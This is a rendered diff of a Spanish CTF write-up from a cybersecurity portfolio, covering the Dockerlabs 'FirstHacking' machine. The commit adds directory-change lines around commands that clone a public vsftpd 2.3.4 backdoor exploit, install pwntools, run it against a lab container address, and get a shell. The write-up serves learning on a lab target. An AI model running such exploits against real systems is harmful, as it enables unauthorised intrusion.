

Before and after one commit to godack1905/ciberseguridad-portfolio, a Markdown page: WriteUps/Español/FirstHacking_Dockerlabs.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/WriteUps/Español/FirstHacking_Dockerlabs.md
+++ b/WriteUps/Español/FirstHacking_Dockerlabs.md
@@ -79,7 +79,9 @@ Shellcodes: No Results
 De esta manera, buscamos en github exploits para esta vulnerabilidad, y nos encontramos con este repositori, nos lo descargamos y lo ejecutamos (https://github.com/Hellsender01/vsftpd_2.3.4_Exploit).
 
 ```
+❯ cd exploits
 ❯ git clone https://github.com/Hellsender01/vsftpd_2.3.4_Exploit.git
+❯ cd vsftpd_2.3.4_Exploit
 ❯ sudo python3 -m pip install pwntools
 ❯ python3 exploit.py 172.17.0.2
 [+] Got Shell!!!
````
